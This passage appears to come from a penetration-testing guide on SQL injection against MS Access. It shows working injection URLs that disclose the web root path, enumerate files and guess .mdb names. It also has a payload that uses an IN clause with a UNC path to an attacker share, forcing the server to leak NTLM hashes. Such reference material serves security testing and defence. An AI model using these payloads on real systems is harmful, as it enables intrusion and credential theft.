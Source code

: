 ```

### Web Root Directory Full Path

The knowledge of the **web root absolute path may facilitate further attacks**. If application errors are not completely concealed, the directory path can be uncovered trying to select data from an inexistent database.

`http://localhost/script.asp?id=1'+ '+UNION+SELECT+1+FROM+FakeDB.FakeTable%00`

MS Access responds with an **error message containing the web directory full pathname**.

### File Enumeration

The following attack vector can be used to **inferrer the existence of a file on the remote filesystem**. If the specified file exists, MS Access triggers an error message informing that the database format is invalid:

`http://localhost/script.asp?id=1'+UNION+SELECT+name+FROM+msysobjects+IN+'\boot.ini'%00`

Another way to enumerate files consists into **specifying a database.table item**. **If** the specified **file exists**, MS Access displays a **database format error message**.

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+C:\boot.ini.TableName%00`

### .mdb File Name Guessing

**Database file name (.mdb)** can be inferred with the following query:

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+name[i].realTable%00`

Where **name[i] is a .mdb filename** and **realTable is an existent table** within the database. Although MS Access will always trigger an error message, it is possible to distinguish between an invalid filename and a valid .mdb filename.

### Remote Database Access & NTLM Credential Theft (2023)

Since Jet 4.0 every query can reference a table located in a *different* `.mdb/.accdb` file via the `IN '<path>'` clause:

```sql
SELECT first_name FROM Employees IN '\\server\share\hr.accdb';
```
```
If user input is concatenated into the part after **IN** (or into a `JOIN … IN` / `OPENROWSET` / `OPENDATASOURCE` call) an attacker can specify a **UNC path** that points to a host they control. The engine will:

1. try to authenticate over SMB / HTTP to open the remote database; 
2. leak the web-server’s **NTLM credentials** (forced authentication); 
3. parse the remote file – a malformed or malicious database can trigger Jet/ACE memory-corruption bugs that have been patched multiple times (e.g. CVE-2021-28455).

Practical injection example:

```sql
1' UNION SELECT TOP 1 name
   FROM MSysObjects
   IN '\\attacker\share\poc.mdb'-- -
```
```
Impact:

* Out-of-band exfiltration of Net-NTLMv2 hashes (usable for relay or offline cracking).
* Potential remote code execution if a new Jet/ACE parser bug is exploited.
```